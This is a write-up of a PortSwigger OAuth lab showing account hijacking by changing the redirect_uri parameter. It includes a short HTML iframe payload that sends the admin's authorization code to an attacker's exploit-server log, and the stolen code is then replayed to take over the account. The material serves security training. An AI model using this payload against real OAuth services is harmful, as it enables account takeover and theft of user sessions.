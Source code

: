 # OAuth account hijacking via redirect_uri | Jan 7, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri), you'll learn: OAuth account hijacking via redirect_uri! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022614.png)

Let's try to login by clicking the "My account" link:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022645.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022657.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022703.png)

When we redirected to `/social-login`, it'll send a GET request to `/auth`, with parameters:

- `client_id`: `m2jcb3vfzwnsy33idi19v`
- `redirect_uri`: `https://0a83006b04184d3dc0c10e90002a0095.web-security-academy.net/oauth-callback`
- `response_type`: `code`
- `scope`: `openid profile email`

In the above `response_type`, it's set to `code`, which tells us **the OAuth grant type is authorization code.**

Also, it's missing the `state` parameter, which helps to prevent CSRF (Cross-Site Request Forgery) attack.

Let's finish the OAuth flow:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023003.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023016.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023034.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023510.png)

Armed with above information, we can try to modify the `redirect_uri` to our exploit server access log via Burp Suite. So we can steal victim's `code` parameter value, and hijack victim's session.

Let's test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023810.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023829.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023851.png)

It worked!

**Now, we can craft a CSRF payload to steal victim's `code` parameter value:**
```html
<html>
    <head>
        <title>OAuth-3</title>
    </head>
    <body>
        <iframe src="https://oauth-0add009804b34dc2c02b0cae022a0026.web-security-academy.net/auth?client_id=m2jcb3vfzwnsy33idi19v&redirect_uri=https://exploit-0a6700f904744d64c0cf0d3a019c0009.exploit-server.net/log&response_type=code&scope=openid%20profile%20email"></iframe>
    </body>
</html>
```

> Note: The OAuth service provider is in a different subdomain.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030333.png)

Exploit server access log:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030358.png)

Nice! We got it!

**Now, we can send a GET request to `/oauth-callback?code=WbhQtp-Zy9tGAIZQ2GViRUn5RJeeEGXE6GbukOWm_u3`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030456.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030504.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030511.png)

I'm user administrator!

Let's go to the admin panel and deleter user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030536.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030543.png)

# What we've learned:

1. OAuth account hijacking via redirect_uri